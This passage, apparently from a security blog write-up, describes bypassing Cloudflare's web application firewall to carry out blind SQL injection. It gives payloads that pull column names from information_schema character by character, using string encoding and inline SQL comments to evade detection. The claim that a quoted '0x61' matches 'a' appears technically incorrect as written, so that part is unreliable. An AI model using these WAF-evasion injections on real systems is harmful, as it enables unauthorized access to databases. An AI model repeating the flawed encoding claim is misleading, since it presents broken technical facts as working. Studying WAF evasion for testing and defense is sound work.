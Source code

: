 #### Second Try
*INJECTION 1* was still not ready to go. Cloudflare would still complain about stuff.
More specifically the injection

{% highlight sql %}
'a' LIKE 'b'
{% endhighlight %}

would still get blocked, not because of the LIKE keyword, but because of the 'a'
character. Comparing plain strings to anything was not allowed. To overcome this
issue I came up with the following injection that went through undetected by the
WAF:

{% highlight sql %}
'0x61' LIKE 'b'
{% endhighlight %}

The above injection sends the character 'a' as the hex-encoded value '0x61'
which still allows it to work:

{% highlight sql %}
'0x61' LIKE 'a'
{% endhighlight %}

still returns True, and

{% highlight sql %}
'0x61' LIKE 'b'
{% endhighlight %}

passes through undetected and returns False.

The resulting *INJECTION 1* now looks like this:

{% highlight sql %}
'0x61' LIKE
 (SELECT SUBSTRING(column_name, 1, 1)
  FROM information_schema.columns
  WHERE table_name = "t1"
  LIMIT 0, 1
 )
{% endhighlight %}

#### Third Try
The third obfuscation I had to enroll was a multi-line comment addition between
SQL query keywords. Cloudflare would block queries like this:

{% highlight sql %}
SELECT c1,c2,c3 FROM t1 WHERE '0x61' LIKE 'b'
{% endhighlight %}

but with a multi-line comment trick, the new query would go through undetected:

{% highlight sql %}
SELECT/*trick comment*/ c1,c2,c3
FROM/*trick comment*/ t1
WHERE '0x61' LIKE 'b'
{% endhighlight %}
